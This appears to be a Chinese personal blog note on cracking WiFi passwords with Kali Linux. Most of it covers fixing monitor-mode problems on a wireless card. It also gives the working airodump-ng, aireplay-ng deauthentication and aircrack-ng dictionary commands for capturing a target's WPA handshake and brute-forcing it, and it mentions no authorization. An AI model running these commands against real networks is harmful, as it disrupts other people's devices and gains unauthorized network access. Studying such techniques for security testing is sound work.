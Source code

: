 ```yaml
---
title: kali破解wifi
main_color: '#FEE269'
date: 2025-03-29 03:33:14
updated: 2025-03-29 03:33:14
permalink:
tags: 工具
categories: 学习
cover:
top:
swiper_index:
top_group_index:
copyright:
copyright_url:
copyright_author:
description:
---
```

[TOC]

## 一、wlan0无线网卡 监听不到数据包？

1. `无线网卡断开与外部主机的链接，要直接与虚拟机链接（kali能识别到该网卡），并为网卡wlan0开启监听。`
3. `热插拔网卡`调试。
3. 卸载重装当前网卡驱动，还不行就换个驱动

## 二、wlan0监听过程中总是 down？

airodump-ng 抓包时，wlan0 总是进入 down 状态，可能是以下原因：

1. `NetworkManager` 或 `wpa_supplicant` 进程干扰（可能性不大）

   NetworkManager 和 wpa_supplicant 可能会尝试控制无线网卡，导致 airodump-ng 运行一段时间后 网卡掉线。

   先结束这2个进程：

   ```shell
   sudo systemctl stop NetworkManager
   sudo systemctl stop wpa_supplicant
   ```

   然后重新启动监听模式（重点！！，`问题一`也可照此修复）：

   ```shell
   sudo ip link set wlan0 down
   sudo iw dev wlan0 set type monitor
   sudo ip link set wlan0 up
   ```

   恢复网络连接：如果需要恢复 Wi-Fi 连接，运行：

   ```shell
   sudo systemctl start NetworkManager
   sudo systemctl start wpa_supplicant
   ```

2. 省电模式导致网卡掉线
   某些无线网卡在监听模式下会 自动进入省电模式，导致 airodump-ng 停止抓包。

   关闭省电模式：

   ```shell
   iw dev wlan0 set power_save off
   ```

   如果仍然 down，可以尝试：

   ```shell
   echo "options iwlwifi power_save=0" | sudo tee /etc/modprobe.d/iwlwifi.conf
   sudo systemctl restart NetworkManager
   ```
   
3. 网卡驱动问题（卸载、重装）

   ```shell
   sudo modprobe -r rtl8xxxu  # 卸载默认驱动
   sudo modprobe rtl8xxxu     # 重新加载驱动
   ```
## 三、常用命令：

```shell
sudo reboot # 重启虚拟机

查看网卡信息
sudo ifconfig 或 sudo iwconfig

使能网卡监听功能
sudo airmon-ng start wlan0
开始执行监听
sudo airodump-ng wlan0

删除 当前目录下`wifi-`前缀的 所有文件
sudo rm -f wifi*

监听目标wifi热点的数据包，抓取的数据保存为`/home/kali/Desktop/`路径下的`wifi-`前缀文件。
sudo airodump-ng -c <wifi热点信道号CH> --bssid <目标wifi地址> -w /home/kali/Desktop/wifi <无线网卡代码>

攻击目标设备，使其掉线重连
sudo aireplay-ng <`--deauth`或`-0`> 10 -a <目标wifi地址> -c <目标设备地址> <无线网卡代码>

抓包成功（监听页面右上角会有`WPA handshake`提示）后，用“密码字典pwd.txt”暴力破解，破解成功也有`Found`提示。
sudo aircrack-ng -w /home/kali/Desktop/pwd.txt -b <目标wifi地址> /home/kali/Desktop/wifi-0*.cap
```

## 四、过程概要：
1. 查看wlan网卡

   ![查看wlan网卡](kali破解wifi/1查看wlan网卡.webp)

2. 监听时生成的文件（监听中）

   ![监听时生成的文件（监听中）](kali破解wifi/2监听时生成的文件（监听中）.webp)

3. 攻击设备掉线重连后成功抓到包

   ![攻击设备掉线重连后成功抓到包](kali破解wifi/3攻击设备掉线重连后成功抓到包.webp)

4. 成功从密码字典中找到密码

   ![成功从密码字典中找到密码](kali破解wifi/4成功从密码字典中找到密码.webp)



## 注意：

1. sudo airodump-ng执行后，只有当设备重连网络时，才能抓到数据包；
2. 一个网卡同一时间只能监听一个ssid频道；